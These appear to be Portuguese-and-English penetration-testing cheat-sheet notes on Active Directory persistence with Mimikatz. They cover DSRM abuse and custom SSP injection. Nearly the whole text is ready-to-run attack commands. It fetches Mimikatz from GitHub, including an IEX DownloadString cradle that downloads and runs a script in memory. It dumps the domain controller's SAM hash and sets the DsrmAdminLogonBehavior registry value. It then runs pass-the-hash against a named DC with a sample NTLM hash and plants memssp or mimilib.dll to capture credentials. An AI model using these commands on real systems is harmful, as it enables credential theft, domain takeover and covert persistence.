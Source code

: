 ##### DSRM MIMIKATZ - LOAD REQUIREMENTS
```
curl https://github.com/n0ts0cial/oscp/raw/main/mimikatz_trunk.zip -Outfile mimikatz_trunk.zip
expand-archive -path ".\mimikatz_trunk.zip" -destinationpath ".\"
cd x64
.\mimikatz.exe
```
```
curl https://github.com/n0ts0cial/oscp/raw/main/x64/mimikatz.exe -Outfile mimikatz.exe
.\mimikatz.exe
```
```
curl https://github.com/n0ts0cial/oscp/raw/main/Invoke-Mimikatz.ps1 -Outfile Invoke-Mimikatz.ps1
Import-Module .\Invoke-Mimikatz.ps1
Invoke-Mimikatz
```
```
IEX(New-Object System.Net.WebClient).DownloadString("https://github.com/n0ts0cial/oscp/raw/main/Invoke-Mimikatz.ps1")
Invoke-Mimikatz
```
##### DSRM MIMIKATZ - OBTER HASH DO ADMINITRADOR LOCAL NO DC(COMO ADMIN):
PRIVILEGE PRIMEIRO E TOKEN DEPOIS, ESSA EU NÃO SABIA
```
privilege::debug
token::elevate
lsadump::sam
```
CRIAR ENTRADA NO REGISTRO PARA LIBERAR LOGIN DO ADMINISTRADOR LOCAL
```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2
Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\"
```
EM QUALQUER COMPUTADOR DA REDE, FAZER O PASS THE HASH. (PROMPT ELEVADO)
```
Privilege::debug
Sekurlsa::pth /user:administrator /domain:tech-dc01 /ntlm:58056bc12cea73a9ce6ea02727fbd8f0 /run:powershell.exe
```
TESTAR A CONEXÃO NO NOVA JANELA:
```
dir \\tech-dc01\c$
```

### CUSTOM SSP MIMIKATZ - EXECUTAR PATCH NO DC(COMO ADMIN):
##### CUSTOM SSP MIMIKATZ - LOAD REQUIREMENTS
```
curl https://github.com/n0ts0cial/oscp/raw/main/mimikatz_trunk.zip -Outfile mimikatz_trunk.zip
expand-archive -path ".\mimikatz_trunk.zip" -destinationpath ".\"
cd x64
```
##### OPTION 1 - USING MIMIKATZ INJECT INTO LASS (NOT STABLE 2016)
```
.\mimikatz.exe
privilege::debug
misc::memssp
```
##### OPTION 2 - COPIAR DLL E ALTERAR REGISTRO
```
copy mimilib.dll C:\Windows\System32
```
